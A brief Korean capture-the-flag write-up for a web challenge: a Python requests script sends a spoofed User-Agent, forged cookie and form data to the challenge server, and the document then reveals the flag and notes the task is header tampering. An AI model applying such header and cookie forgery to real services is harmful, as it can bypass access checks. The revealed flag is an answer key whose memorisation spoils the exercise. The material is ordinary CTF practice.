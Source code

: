 # 라업

```python
import requests as req

header = {"User-Agent": "bot"}
cookies = {"cookie": "Sweat cookie~"}
data = {"proxy": "is fun!!"}
url = "http://ssh.knock-on.org:10001/"

res = req.post(headers=header, data=data, cookies=cookies, url=url)

print(res.text)

```

# 플래그
K0{M4n1pul4t1ng_c00k13s_1s_qu1t3_3z!!}

# 설명
헤더 변조하는 문제
